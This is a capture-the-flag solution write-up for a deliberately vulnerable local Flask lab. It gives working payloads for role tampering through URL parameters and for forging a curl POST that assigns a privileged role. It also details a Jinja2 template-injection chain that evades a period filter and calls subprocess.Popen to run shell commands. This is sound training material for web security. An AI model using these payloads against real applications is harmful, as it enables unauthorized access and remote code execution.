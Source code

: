 # Who Stole my Flask? Solution

For this challenge you will need to determine how to take advantage of vulnerabilities present in the 
flask applications so that you can elevate your privileges.

There are three flags in this challenge. Each flag is given when the challenger acquires new permissions/
upgrades their account role. They will be present on the HTML pages.

The method for solving it is as follows:

### Create an account
 - Go to the URL `localhost:5000` to check out the site and begin interacting with it.
 - Go to the `Sign Up` section to create an account so that you can log in to the site to see what is available to the default user.

### Analyze Profile Page for a Vulnerability
 - If you read the HTML code on the `/profile` page, you will see a comment stating that there is URL POST functionality that has been slated to be removed but has not been done yet.
 - This should be a hint to then attempt to try to change your role from 'user' to 'admin'
 - This can be done by going to the following URL: `localhost:5000/profile?userrole=admin&role=admin`
 - If done correctly, your profile page will show that the role for your account is now 'admin'
 - `Token1` will be present on the `admin` page

### Begin Analyzing the Admin Page for a Vulnerability
 - You will find that there is a lot of functionality on the admin page. 
 - The vulnerable part here will be the `Add User` section, where it explains that the default role assigned to new users is 'user'.
 - You can see that there are multiple fields to a users account including `name`, `username`, `email`, `note`, and `role`, but the form for `Add User` only shows four of those.
 - Your next move should be to craft your own POST request using all the fields present to attempt to overwrite the default role that is submitted when creating a new user.
 - This can be done using the following steps:
    1. Analyze the form being used when you create a user. This will help you determine the field names.
    2. Get a session cookie for your account that you can store on your machine using the following command. It will be combined with a curl request to forge a form POST request.
         ```
         curl -c cookies.txt -d 'email=youremail@email.com&password=yourPassword' http://localhost:5000/login
         ``` 
   - Note: Substitute `youremail@email.com` and `yourPassword` with the email and password you chose when creating an account.
    3. You can now forge the CURL command to create an unauthorized POST request. This can be done using the following command: 
         ```
         curl -X POST -b cookies.txt -d 'formVal2=Submit&addname=johnSmith&&addpassword=password&addusername=john&addemail=john@smith.com&addrole=dev' http://localhost:5000/admin
         ```
    4. You should get a response back with the pages content. Login with the new user and you will see that you have the `dev` role now.

### Start Crafting SSTI
 - You will now have access to the `dev` page which contains `Token2`.
 - The HTML page is plain but it is intended for devs to do testing and have full access to the system. You can now begin crafting your template injection in the URL to leverage this access.
 - It will take some trial and error, but you must start working through the objects in the Jinja template using this injection point to determine what processes are available to you.
 - The first step is to see what subclasses are available to leverage. A list of them can be populated by going to the following URL: `http://localhost:5000/dev?cmd={{[].__class__.__base__.__subclasses__()}}`
 - An error saying "Unauthorized characters have been entered" will pop up. If you inspect the command, you'll see that it is missing the `.`'s. This is a sign that you will need to craft your injection without the use of periods.
 - To pass the security checks, the new command will be: `http://localhost:5000/dev?cmd={{''['__class__']['__base__']['__subclasses__']()}}`
 - Analyze the list to determine your vector of attack. For this example, we will use the `subprocess.Popen` class.
 - Determine what entry in that list represents `subprocess.Popen` using string processing. For our example, it was entry `212`.
   - Copy the text contents of the page (the full list of <class 'class.name'> entries).
   - Open a Python 3 interpreter.
   - Save the copied text as a variable `s`.
   - Enter the following code:
      ```
      s = s[1:-1]
      s = s.split(",")
      for i, c in enumerate(s):
         if "Popen" in c:
            print(i)
      ```
 - To use the `subprocess.Popen` class, browse to the following webpage, replacing `212` with the value found: `http://localhost:5000/dev?cmd={{''['__class__']['__base__']['__subclasses__']()[212]}}`
 - From here you will need to craft a command to find the `flag.txt` file and show its contents. It will take some trial and error to get your desired output.
 - Browse to this webpage to show the final token: `http://localhost:5000/dev?cmd={{''['__class__']['__base__']['__subclasses__']()[212]('cat flag*',shell=True,stdout=-1)['communicate']()}}`


## Flags
 - Token1: Hex string available on the `/admin` page once you gain access
 - Token2: Hex string available on the `/dev` page once you gain access
 - Token3: Hex string inside the `flag.txt` file once you gain access